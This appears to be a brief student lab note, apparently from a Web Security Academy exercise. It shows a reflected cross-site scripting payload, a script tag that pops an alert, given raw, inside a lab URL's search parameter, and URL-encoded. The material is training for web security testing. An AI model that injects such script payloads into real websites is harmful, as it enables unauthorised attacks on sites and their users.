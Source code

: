  ##  RAW PAYLOAD
 '<script>alert('XSS by Ranjan')</script> '

## UNCOADED PAYLOAD 
'https://0a9400b804d31941810939db003b0089.web-security-academy.net/?search=<script>alert('XSS by Ranjan')</script>'

## ENCOADED PAYLOAD 
'https://0a9400b804d31941810939db003b0089.web-security-academy.net/?search=%3Cscript%3Ealert('XSS%20by%20Ranjan')%3C%2Fscript%3E'
